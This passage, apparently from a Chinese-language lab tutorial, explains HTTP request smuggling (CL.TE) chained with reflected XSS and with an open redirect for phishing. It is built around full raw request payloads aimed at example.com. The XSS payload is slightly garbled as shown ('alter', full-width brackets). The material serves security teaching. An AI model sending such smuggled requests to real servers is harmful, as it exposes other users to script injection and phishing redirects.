 ### 攻击举例

#### smuggling+reflected xss

单纯的UA处的xss并没有什么危害，但可以结合请求走私攻击进行利用来提升危害

我们可以构造以下数据包，只要发送一次，就可以在网站的任意页面触发xss，因为在http序列中，走私的请求会插到用户对网站的请求前面

```http
POST / HTTP/1.1
Host: example.com
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: session=k3jXNrcQioQOdiLYyRXPJVf5gHZykEl8
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0
GET /post?postId=3 HTTP/1.1
User-Agent: ">＜script＞alter(1)＜/script＞
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

#### 4.2 direct+smuggling

基于url跳转,把用户重定向到一个固定网页，lab为我们提供个跳转api,/post/next?postId=3路由跳转到的是/post?postId=3。

此时我们可以利用走私攻击并配合重定向进行钓鱼。

发送以下数据包一次，然后访问原网站任意页面，都会被重定向到/post?postId=4

```http
POST / HTTP/1.1
Host: example.com
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=Rmtn44vZ2BeGqD1ToPbAYrcDS0UiIKwQ
Content-Type: application/x-www-form-urlencoded
Content-Length: 178
Transfer-Encoding: chunked

0
GET /post/next?postId=3 HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
```